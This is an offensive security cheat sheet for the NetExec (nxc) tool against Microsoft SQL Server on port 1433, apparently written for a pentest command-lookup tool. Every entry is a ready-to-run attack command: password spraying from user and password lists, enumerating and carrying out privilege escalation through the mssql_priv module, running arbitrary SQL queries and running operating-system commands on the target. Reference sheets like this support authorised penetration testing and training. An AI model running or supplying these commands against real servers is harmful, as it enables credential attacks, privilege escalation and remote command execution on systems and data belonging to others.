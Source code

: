 # nxc

% nxc-mssql, netexec, windows, Active directory
#plateform/linux #target/remote #port/1433 #protocol/mssql

## mssql password spray
#cat/ATTACK/BRUTEFORCE-SPRAY  

```bash
nxc mssql <ip> -u <user.txt> -p <password.txt>  --no-bruteforce
```

## mssql check privesc
#cat/RECON 

```bash
nxc mssql <ip> -u <user> -p '<password>' --local-auth -M mssql_priv -o 'ACTION=enum_priv'
```

## mssql privesc
#cat/ATTACK/EXPLOIT 

```bash
nxc mssql <ip> -u <user> -p '<password>' --local-auth -M mssql_priv -o 'ACTION=privesc'
```

## mssql clean privesc
#cat/ATTACK/EXPLOIT 

```bash
nxc mssql <ip> -u <user> -p '<password>' --local-auth -M mssql_priv -o 'ACTION=rollback'
```

## mssql execute query
#cat/ATTACK/EXPLOIT 

```bash
nxc mssql <ip> -u <user> -p '<password>' --local-auth -q 'SELECT name FROM master.dbo.sysdatabases;'
```

## mssql execute command
#cat/ATTACK/EXPLOIT 

```bash
nxc mssql <ip> -u <user> -p '<password>' --local-auth -x <cmd|whoami>
```
